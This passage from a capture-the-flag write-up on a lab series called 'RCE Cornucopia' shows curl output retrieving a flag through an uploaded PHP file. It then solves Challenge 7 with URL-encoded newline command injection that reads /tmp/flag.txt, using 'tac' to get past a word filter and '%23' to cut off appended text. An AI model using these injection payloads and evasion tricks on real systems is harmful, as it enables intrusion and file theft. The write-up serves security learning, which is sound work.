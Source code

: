 ```{% raw %}
* Connected to 127.0.0.1 (127.0.0.1) port 8086 (#0)
> GET /uploads/420698287ca445da53fc584baca464ffa28bfa5421d9fd709df7b2785e6e3395.php HTTP/1.1
> Host: 127.0.0.1:8086
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Thu, 01 Nov 2018 03:46:31 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 145
< Content-Type: text/html; charset=UTF-8
< 
????flag{WhoeverPutThe"B"In"Subtle"WasClever}
* Connection #0 to host 127.0.0.1 left intact
Source: https://www.reddit.com/r/Showerthoughts/comments/1hwbdr/the_letter_b_in_the_word_subtle_is/
{% endraw %}```

Booyah.

# Challenge 7

![RCE Cornucopia](/img/rce-cornucopia/rce7-000.png)

Back to a GET form action on this one. Testing with Google...

```{% raw %}
http://127.0.0.1:8087/index.php?domain=google.com&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce7-001.png)

It outputs a whooole lot, not going to include it all here. Something new for this level is that in addition to a number of illegal characters, certain words are banned like `cat`.

```{% raw %}
http://127.0.0.1:8087/index.php?domain=cat&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce7-002.png)

After some playing around I determined newline characters are not among the banned. Just need to find a command that isn't a prohibited string - `tac` is my go-to item there. It's `cat` but backwards, as the name suggests. Frequently overlooked!

```{% raw %}
http://127.0.0.1:8087/index.php?domain=google.com%0Atac%20/tmp/flag.txt&submit=Scan
{% endraw %}```

![RCE Cornucopia](/img/rce-cornucopia/rce7-003.png)

The command injection worked since that's a `tac` error message but the outcome isn't as desired. `:443` appears to be appended to the user's input.  We can clean that up with a `#` to comment out everything that follows.

```{% raw %}
http://127.0.0.1:8087/index.php?domain=google.com%0Atac%20/tmp/flag.txt%20%23&submit=Scan
{% endraw %}```

Note that like `&` from Challenge 2, `#` is an "unsafe" character per [RFC-1738](http://www.ietf.org/rfc/rfc1738.txt) and must be encoded as `%23`.

![RCE Cornucopia](/img/rce-cornucopia/rce7-004.png)

```